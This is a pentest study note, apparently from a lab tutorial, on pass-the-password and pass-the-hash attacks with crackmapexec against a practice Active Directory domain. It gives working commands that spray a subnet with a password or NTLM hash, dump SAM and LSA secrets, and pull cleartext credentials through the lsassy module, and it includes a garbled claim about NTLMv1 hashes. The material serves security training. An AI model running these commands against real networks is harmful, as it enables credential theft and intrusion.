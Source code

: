 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

### **Example**

![](https://i.imgur.com/BEJeQ9g.jpg)


**Note :** We cannot use NTLMv2 hashes for the pass the hash attack [refer to LLMNR poisoning for this type of hashes] , Only use NTLMv1 hashes [refer to SMB relay attacks for this type of hashes]. Also make sure to run your `crackmapexec` twice with the same syntax as this may lead to different results.



## **Dumping Password Hashes**

```powershell
# dump SAM hashes of local admin and users

$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
```



### **Example**


![](https://i.imgur.com/BPORRyU.png)

We can also dump `shares` and `lsa` (The LSA secrets are **a set of encrypted keys that are stored in the registry**, They could be used or cracked again) passwords of our targets


**_Dumping shares :_**


![](https://i.imgur.com/xPXK6Qs.png)



**_Dumping lsa :_**


![](https://i.imgur.com/FcNerVS.jpg)



## **Crackmapexec Modules**

Modules are set of objects within `crackmapexec` that makes it more efficient to use, In other to use a module we need to use the `-M` option followed by the module name.

![](https://i.imgur.com/aS8WTXb.jpg)


### **Usage**

```powershell
# using lsassy to dump logged in users secrets/clear text passwords
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy
```

#### **Example**

![](https://i.imgur.com/V7a4hFM.png)



## **Crackmapexec Databases**

The crackmapexec database stores a list of activity of everything we gathered during our initial attack with it including credentials, hosts and password hashes.

```powershell
# launching database
$ cmedb

# show help message
cmedb (default)(smb) > help
```



![](https://i.imgur.com/EMHFQJF.png)
